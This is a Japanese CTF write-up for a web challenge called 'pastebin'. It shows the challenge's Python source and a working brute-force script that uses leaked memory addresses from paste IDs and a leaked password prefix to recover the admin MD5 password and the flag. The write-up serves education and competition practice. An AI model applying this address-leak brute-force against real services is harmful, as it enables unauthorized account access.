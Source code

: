 # pastebin:web:120pts
Challenge: [https://pastebin.web.actf.co/](https://pastebin.web.actf.co/)  

[main.py](main.py)  

# Solution
URLとソースが渡される。  
アクセスすると、Pasteを保存できるサイトのようだ。  
![site.png](site/site.png)  
`Satoki`と保存すると、`https://pastebin.web.actf.co/view?id=135598339909712`のようなURLが払い出される。  
ソースの主要部分は以下の通りであった。  
```python
import hashlib
import html
import os
import secrets

from server import Server

ADMIN_PASSWORD = hashlib.md5(
    f'password-{secrets.token_hex}'.encode()
).hexdigest()

pastes = {}

def add_paste(paste_id, content, admin_only=False):
    pastes[paste_id] = {
        'content': content,
        'admin_only': admin_only,
    }

server = Server()

~~~

@server.post('/paste')
async def paste(request):
    data = await request.post()
    content = data.get('content', '')
    paste_id = id(content)

    add_paste(paste_id, content)

    return (200, f'''
        <link rel="stylesheet" href="/style.css">
        <div class="container">
            <h1>Paste Created</h1>
            <p><a href="/view?id={paste_id}">View Paste</a></p>
        </div>
    ''')

@server.get('/view')
async def view_paste(request):
    id = request.query.get('id')
    paste = pastes.get(int(id))

    if paste is None:
        return (404, 'Paste not found')

    if paste['admin_only']:
        password = request.query.get('password', '')
        if password != ADMIN_PASSWORD:
            return (
                403,
                f'Incorrect parameter &password={ADMIN_PASSWORD[:6]}...',
            )

    return (200, f'''
        <link rel="stylesheet" href="/style.css">
        <div class="container">
            <h1>Paste</h1>
            <pre>{html.escape(paste['content'])}</pre>
        </div>
    ''')

~~~

add_paste(0, os.getenv('FLAG', 'missing flag'), admin_only=True)
server.run('0.0.0.0', 3000)
```
`add_paste(0, os.getenv('FLAG', 'missing flag'), admin_only=True)`より`https://pastebin.web.actf.co/view?id=0`にフラグがあることがわかる。  
ただし、`admin_only=True`なので、正確な`ADMIN_PASSWORD`をクエリとして渡す必要がある。  
幸いなことに`ADMIN_PASSWORD[:6]`までは認証失敗の応答に含まれているようだ。  
```bash
$ curl 'https://pastebin.web.actf.co/view?id=0'
Incorrect parameter &password=1797c2...
```
`ADMIN_PASSWORD`が`1797c2`で始まることがわかる。  
ここで、`ADMIN_PASSWORD`の生成個所を見る。  
```python
ADMIN_PASSWORD = hashlib.md5(
    f'password-{secrets.token_hex}'.encode()
).hexdigest()
```
手元で実行して試すと、以下のような奇妙なふるまいを見つける。  
```bash
$ python
>>> import hashlib
>>> import secrets
>>> ADMIN_PASSWORD = hashlib.md5(
...     f'password-{secrets.token_hex}'.encode()
... ).hexdigest()
>>> ADMIN_PASSWORD
'0921c980c1b4c639b9a69e07c99dd87b'
>>> f'password-{secrets.token_hex}'.encode()
b'password-<function token_hex at 0x7ffae2f4e9e0>'
```
`secrets.token_hex`が`<function token_hex at 0x7ffae2f4e9e0>`のようなメモリアドレスを含む文字列となっている。  
アドレスが分かれば`ADMIN_PASSWORD`も計算できるが、まだエントロピーが高い。  
どこからかアドレスがわからないかと考えていると、`paste_id = id(content)`が目に留まる。  
`id()`はオブジェクトの識別値を返すし、CPythonではメモリのアドレスであったと記憶している。  
これはPasteのURLから取得でき、先ほどのURLのidである`id=135598339909712`もHexで`0x7b5372e1e850`とアドレスのようだ。  
その他にもPasteを作ると、`135598320237360`(`0x7b5371b5bb30`)や`135598320232560`(`0x7b5371b5a870`)と一致している箇所があると分かる。  
検証の結果`0x7b537XXXXXXX`の`0xXXXXXXX`を当てればいいようだ。  
`ADMIN_PASSWORD`の先頭はわかっているので、md5の結果の先頭が`1797c2`となるものを探せばよい。  
以下のid2passwd.pyで計算し、候補をすべて試す。  
```python
import re
import hashlib
import requests

passwd = re.search(
    "Incorrect parameter &password=([0-9a-f]+)\.\.\.",
    requests.get("https://pastebin.web.actf.co/view?id=0").text,
).group(1)
print(f"password[:6]: {passwd}")


res = requests.post("https://pastebin.web.actf.co/paste", data={"content": "satoki"})
id_satoki = re.search("id=([0-9]+)", res.text).group(1)
print(f'id("satoki"): {hex(int(id_satoki))}')

for i in range(0x0, 0xFFFFFFF):
    base = int(id_satoki)& (~0xFFFFFFF)
    hash = hashlib.md5(
        f"password-<function token_hex at {hex(base + i)}>".encode()
    ).hexdigest()
    if hash.startswith(passwd):
        print(f"password?: {hash}")
        flag = requests.get(f"https://pastebin.web.actf.co/view?id=0&password={hash}").text
        if "actf{" in flag:
            print(f"password: {hash}")
            print(re.search("actf{.*}", flag).group(0))
            break
```
実行する。  
```bash
$ python id2passwd.py
password[:6]: 1797c2
id("satoki"): 0x7b5371b50e70
password?: 1797c2a5536b66caeb1e43b67caa84b6
password?: 1797c2c4026040eaf89403f7e713277d
password?: 1797c26e62cd714816eb4b152c1df3b3
password?: 1797c2a48f270a2b42660c2e629c51cd
password: 1797c2a48f270a2b42660c2e629c51cd
actf{47fd1d17b0c1121da0fc9d2d0c4fc109}
```
`ADMIN_PASSWORD`が`1797c2a48f270a2b42660c2e629c51cd`と分かり、flagが得られた。  

## actf{47fd1d17b0c1121da0fc9d2d0c4fc109}